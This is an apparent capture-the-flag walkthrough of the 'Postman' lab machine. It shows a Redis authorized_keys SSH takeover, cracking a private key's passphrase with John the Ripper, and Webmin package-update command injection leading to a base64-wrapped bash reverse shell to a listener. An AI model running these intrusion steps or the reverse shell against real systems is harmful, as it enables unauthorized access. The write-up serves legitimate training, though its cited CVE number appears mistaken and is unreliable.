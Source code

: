 ![postman](https://user-images.githubusercontent.com/66635295/177882324-7b24b663-8911-4c1c-81c6-85fbc14f3ea8.png)

**RECON**
---
**Unfinished Website**
![recon](https://user-images.githubusercontent.com/66635295/177882332-fd817d49-3650-4a0b-b8cf-9bd12907a41d.png)

**Nmap Scan**
<pre>nmap –p- -A -T4 10.10.10.160</pre>
-allports -version -Aggressive

Port 6379 Redis and Port 1000 Webpage
![nmap](https://user-images.githubusercontent.com/66635295/177882433-ba2d38f8-69fc-49e7-99ff-10ab7c868bd8.png)

**Webpage check**

Wepbpage shows an error, and the link does not work 
![10000](https://user-images.githubusercontent.com/66635295/177882646-5ebf6232-adf3-4e15-8cdd-b284ba8791f7.png)

Navigating to the proper page reveals Webmin login 
![webmin](https://user-images.githubusercontent.com/66635295/177882796-f0ff7900-9296-4471-b394-01b121af3ef9.png)

**Redis**
<pre> sudo apt-get install redis-tools </pre>
![redis install](https://user-images.githubusercontent.com/66635295/177883042-2adb0cbf-6e2c-44bc-a428-e99c52c57325.png)

Redis Host
<pre>redis-cli -h 10.10.10.160</pre>
![redis-h](https://user-images.githubusercontent.com/66635295/178047298-847ee0b2-b196-4674-ab2e-499e5b6a23fc.png)

Directory Check
<pre>CONFIG GET dir</pre>
<pre> CONFIG SET dir /var/lib/redis/.ssh</pre>
![redis-h](https://user-images.githubusercontent.com/66635295/178054227-24f483cd-851e-4e7d-9feb-120da1f1ff95.png)

**ENUMERATION**
---
**SSH Key**
<pre>ssh-keygen</pre>
![sshgen](https://user-images.githubusercontent.com/66635295/178054662-4469fc0a-1040-438b-9c44-6c62b8568dfc.png)

Copy key to .txt file
<pre> (echo -e "\n\n"; cat ~/id_rsa.pub; echo -e "\n\n") > key.txt  </pre>            
![keytxt](https://user-images.githubusercontent.com/66635295/178055503-d0f774e4-6c69-409a-99cf-c0eac96f8106.png)

Send key to host
<pre>cat key.txt | redis-cli -h 10.10.10.160 -x set ssh_key</pre>
![rkey](https://user-images.githubusercontent.com/66635295/178055971-545373bc-d97d-4ea1-bc7b-07574185d1e4.png)

Check key
<pre>get ssh_key</pre>
![check key](https://user-images.githubusercontent.com/66635295/178056511-f5151520-69fe-4dce-b9e5-8571d4c55139.png)

Set database
<pre>CONFIG SET dir /var/lib/redis/.ssh </pre>
<pre>CONFIG set dbfilename authorized_keys</pre>
<pre>save</pre>
<pre>exit</pre>
![set db](https://user-images.githubusercontent.com/66635295/178056953-a2d34e4d-f7b1-40db-b2ff-c58c8c4db9f3.png)


SSH into the host
<pre> ssh - id_rsa redis@10.10.10.160 </pre>

**Checking  Directorys**

authorized_keys directory is here 

![directory](https://user-images.githubusercontent.com/66635295/178059417-c9d01199-9069-4e64-9c48-840fba1f2d65.png)

Home directory 
<pre>ls -l</pre>
<pre>cd Matt</pre>
<pre>ls -l</pre>
User Matt has read permison for user flag

![matt](https://user-images.githubusercontent.com/66635295/178060409-6bc981cb-aca1-4f61-a78d-4dda178c30a0.png)

Opt Directory
<pre> cat id_rsa.bak </pre>
Reveals Private RSA KEY 


**PRIVILEGE ESCALATION**
---
**John the Ripper**
Copy paste the key and transfer it to .john
<pre> /usr/share/john/ssh2john.py postman_id_rsa_enc > postman_id_rsa.john </pre>
![sshtojohn](https://user-images.githubusercontent.com/66635295/178073942-d24e2b6a-b6c2-4652-8406-c8b7cb4242b2.png)

Cracked Password 
<pre> john postman_id_rsa.johm --wordlist=/usr/share/wordlists/rockyou.txt </pre>
Jonhn and rockyou.txt reveals password to be computer2008

![cracked](https://user-images.githubusercontent.com/66635295/178074216-551f939e-0907-4646-9070-fcedf0739f41.png)

**SSH Matt**
<pre>ssh Matt@10.10.10.160</pre>
Matt is denied permission

![fail matt](https://user-images.githubusercontent.com/66635295/178074458-e94015eb-af59-4635-88ca-d72305f099ae.png)

Checking SSH 
<pre>cd /etc/ssh/</pre>
<pre>ls</pre>
![sshconfig](https://user-images.githubusercontent.com/66635295/178074642-1a9db243-8f0e-4b36-b167-20d7103f491f.png)

reading sshd_config shows Matt is a denied login 

![denny](https://user-images.githubusercontent.com/66635295/178074725-c7d3d884-8855-4f91-aab4-b122591dbe00.png)

Postmatt
<pre> su Matt </pre>
<pre> Password: computer2008 </pre>

![postmatt](https://user-images.githubusercontent.com/66635295/178075034-35d1fd9d-d29c-4def-846f-df32e4c3d510.png)

Flag is now accessible 

![user flag](https://user-images.githubusercontent.com/66635295/178075070-f098c396-939f-4315-8073-d0e6d0a53312.png)

Webin is also accessible via same password

![mattlogin](https://user-images.githubusercontent.com/66635295/178095015-e4c8460d-8f94-4793-a0d4-d45035112b3f.png)

Checking Version shows webin 1.910

![version](https://user-images.githubusercontent.com/66635295/178095064-db2a39be-d321-41b3-9c3c-48097a84a05d.png)

**Root shell**
---
**Vulnearbilty**

CVE 2019-12850 is a severe vulnerability 

![vuln](https://user-images.githubusercontent.com/66635295/178095122-fe3ad733-aa3d-4bda-8e4d-b46ab7dd55a0.png)

Maneuver to Package Updates and turn on Burpsuite interceptor 

![burpon](https://user-images.githubusercontent.com/66635295/178095397-ea80e6f1-a9b4-4ae5-ab8d-8229afeb5fc5.png)

Send package-updates request to the repeater. Clear out some of the extra HTTP and add u=acl%2Fapt&u=$ to execute commands.

![check](https://user-images.githubusercontent.com/66635295/178095579-cd0cffb2-676e-4c12-be58-da3e29e627f1.png)

**Payload** 

Base64
<pre>echo -n 'bash -c "bash -i >& /dev/tcp/10.10.14.9/4444 0>&1"'| base64 </pre>
-newline -command_string -interactive_shell standard output TCP connection HOST/LISTENING PORT standard input

![base64](https://user-images.githubusercontent.com/66635295/178096539-257455ab-9507-4c0e-beb6-d6016db08edc.png)

Netcat
<pre> nc -lvp 4444 </pre>
-listen -verbose -port

![netcat](https://user-images.githubusercontent.com/66635295/178096671-66df4f9c-4244-4504-bda1-2382c01f559d.png)

URL Encode
<pre>$(echo${IFS}TCPSTRING|base64${IFS}-d|bash)</pre>
{IFS} prevent command from splitting  -decode

![url](https://user-images.githubusercontent.com/66635295/178096699-4811c722-342f-48be-a4c9-e05f10c36c88.png)


Put payload in the repeater

![payload](https://user-images.githubusercontent.com/66635295/178097240-7bad79e8-c25f-4922-bf62-333b3ce8f9d6.png)

**Shell**

Root Connection on listner

![shell](https://user-images.githubusercontent.com/66635295/178097333-c92dc960-1b42-4656-b3c9-1950676d08f4.png)

Flag in home directory

![rootflag](https://user-images.githubusercontent.com/66635295/178097415-cb60be01-dfa4-4b18-91c7-1510c068e727.png)


